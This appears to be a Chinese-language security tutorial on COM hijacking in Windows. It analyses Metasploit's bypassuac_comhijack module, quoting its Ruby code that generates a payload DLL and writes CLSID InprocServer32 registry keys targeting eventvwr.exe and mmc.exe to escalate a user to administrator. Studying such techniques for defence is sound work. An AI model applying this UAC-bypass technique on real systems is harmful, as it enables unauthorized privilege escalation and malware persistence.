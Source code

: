 我们直接在CLSID下新建一个对象ID，就能够劫持某个进程或多个进程。

```
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID   
 	{CLSID}       
	InprocServer32          (Default) = path          
	ThreadingModel 	    = value
```


与DLL劫持原理相近，但是COM组件的劫持可以拓展很多东西，劫持的目标不一定是一个进程，劫持所需的文件不一定是一个DLL，它可以是一个.com文件、二进制PE文件、DLL文件，劫持的目标也可以是一个Windows API。

## 0x03 COM 组件劫持案例

`metasploit-framework/embedded/framework/modules/exploits/windows/local/bypassuac_comhijack.rb`

使用`bypassuac_comhijack`模块能够将属于Administrators组的普通用户提升至管理员权限。

下面我们分析一下代码：

首先它会检查payload和操作系统是否支持，然后检测是否是最高权限。

根据你配置的payload来生成一个DLL木马：

```ruby
payload = generate_payload_dll({:dll_exitprocess => true})
    commspec = expand_path('%COMSPEC%')
    dll_name = expand_path("%TEMP%\\#{rand_text_alpha(8)}.dll")
```

COM劫持配置项：

```ruby
@@hijack_points = [
    {
      name: 'Event Viewer',
      cmd_path: '%WINDIR%\System32\eventvwr.exe',
      class_ids: ['0A29FF9E-7F9C-4437-8B11-F424491E3931']
    },
    {
      name: 'Computer Managment',
      cmd_path: '%WINDIR%\System32\mmc.exe',
      cmd_args: 'CompMgmt.msc',
      class_ids: ['0A29FF9E-7F9C-4437-8B11-F424491E3931']
    }
  ]
```

该模块支持两种命令启动方式：

* %WINDIR%\System32\eventvwr.exe
* %WINDIR%\System32\mmc.exe CompMgmt.msc

劫持的CLSID相同：`0A29FF9E-7F9C-4437-8B11-F424491E3931`

创建注册表：

```ruby
target = @@hijack_points.sample
    target_clsid = target[:class_ids].sample
    root_key = "#{CLSID_PATH}\\{#{target_clsid}}"
    inproc_key = "#{root_key}\\InProcServer32"
    shell_key = "#{root_key}\\ShellFolder"

    registry_createkey(root_key, registry_view)
    registry_createkey(inproc_key, registry_view)
    registry_createkey(shell_key, registry_view)

    registry_setvaldata(inproc_key, DEFAULT_VAL_NAME, dll_path, 'REG_SZ', registry_view)
    registry_setvaldata(inproc_key, 'ThreadingModel', 'Apartment', 'REG_SZ', registry_view)
```